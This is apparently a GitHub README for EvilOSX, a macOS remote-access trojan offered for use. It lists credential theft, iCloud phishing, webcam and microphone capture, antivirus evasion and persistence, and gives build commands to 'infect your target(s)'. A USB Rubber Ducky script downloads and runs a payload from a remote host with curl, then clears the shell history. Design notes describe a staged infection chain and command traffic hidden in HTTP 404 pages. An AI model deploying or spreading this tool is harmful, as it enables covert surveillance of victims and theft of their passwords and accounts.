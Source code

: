 <h1 align="center">
  <br>
  <a href="https://github.com/Marten4n6/EvilOSX"><img src="/data/images/logo.png?raw=true" alt="Logo" width="280"></a>
  <br>
  EvilOSX
  <br>
</h1>

<h4 align="center">An evil RAT (Remote Administration Tool) for macOS / OS X.</h4>

<p align="center">
  <a href="https://github.com/Marten4n6/EvilOSX/blob/master/LICENSE.txt">
      <img src="https://img.shields.io/badge/license-GPLv3-blue.svg?style=flat-square" alt="License">
  </a>
  <a href="https://github.com/Marten4n6/EvilOSX/blob/master/LICENSE.txt">
      <img src="https://img.shields.io/badge/python-2.7,%203.7-blue.svg?style=flat-square" alt="Python">
  </a>
  <a href="https://github.com/Marten4n6/EvilOSX/issues">
    <img src="https://img.shields.io/github/issues/Marten4n6/EvilOSX.svg?style=flat-square" alt="Issues">
</p>

---

## Features
- Emulate a terminal instance
- Simple extendable [module] system
- No bot dependencies (pure python)
- Undetected by anti-virus (OpenSSL [AES-256](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard) encrypted payloads)
- Persistent
- GUI and CLI support
- Retrieve Chrome passwords
- Retrieve iCloud tokens and contacts
- Retrieve/monitor the clipboard
- Retrieve browser history (Chrome and Safari)
- [Phish](https://i.imgur.com/x3ilHQi.png) for iCloud passwords via iTunes
- iTunes (iOS) backup enumeration
- Record the microphone
- Take a desktop screenshot or picture using the webcam
- Attempt to get root via local privilege escalation

## How To Use

```bash
# Clone or download this repository
$ git clone https://github.com/alex14324/evilos.git

# Go into the repository
$ cd evilos

# Install dependencies required by the server
$ sudo pip install -r requirements.txt

# Start the GUI
$ python start.py

# Lastly, run a built launcher on your target(s)
```

**Warning:** Because payloads are created unique to the target system (automatically by the server), the server must be running when any bot connects for the first time.

### Advanced users

There's also a CLI for those who want to use this over SSH:
```bash
# Create a launcher to infect your target(s)
$ python start.py --builder

# Start the CLI
$ python start.py --cli --port 1337

# Lastly, run a built launcher on your target(s)
```

## Screenshots

![CLI](https://i.imgur.com/DGYCQMl.png)
![GUI](https://i.imgur.com/qw3k4z4.png)

## Motivation
This project was created to be used with my [Rubber Ducky](https://hakshop.com/products/usb-rubber-ducky-deluxe), here's the simple script:
```
REM Download and execute EvilOSX @ https://github.com/Marten4n6/EvilOSX
REM See also: https://ducktoolkit.com/vidpid/

DELAY 1000
GUI SPACE
DELAY 500
STRING Termina
DELAY 1000
ENTER
DELAY 1500

REM Kill all terminals after x seconds
STRING screen -dm bash -c 'sleep 6; killall Terminal'
ENTER

STRING cd /tmp; curl -s HOST_TO_EVILOSX.py -o 1337.py; python 1337.py; history -cw; clear
ENTER
```
- It takes about 10 seconds to backdoor any unlocked Mac, which is...... *nice*
- Termina**l** is spelt that way intentionally, on some systems spotlight won't find the terminal otherwise. <br/>
- To bypass the keyboard setup assistant make sure you change the VID&PID which can be found [here](https://ducktoolkit.com/vidpid/). <br/>
  Aluminum Keyboard (ISO) is probably the one you are looking for.


## Versioning
EvilOSX will be maintained under the Semantic Versioning guidelines as much as possible. <br/>
Server and bot releases will be numbered with the follow format:
```
<major>.<minor>.<patch>
```

And constructed with the following guidelines:
- Breaking backward compatibility (with older bots) bumps the major
- New additions without breaking backward compatibility bumps the minor
- Bug fixes and misc changes bump the patch

For more information on SemVer, please visit https://semver.org/.

## Design Notes
- Infecting a machine is split up into three parts:
  * A **launcher** is run on the target machine whose only goal is to run the stager
  * The stager asks the server for a **loader** which handles how a payload will be loaded
  * The loader is given a uniquely encrypted **payload** and then sent back to the stager
- The server hides it's communications by sending messages hidden in HTTP 404 error pages (from BlackHat's "Hiding In Plain Sight")
  * Command requests are retrieved from the server via a GET request
  * Command responses are sent to the server via a POST request
- Modules take advantage of python's dynamic nature, they are simply sent over the network compressed with [zlib](https://www.zlib.net), along with any configuration options
- Since the bot only communicates with the server and never the other way around, the server has no way of knowing when a bot goes offline

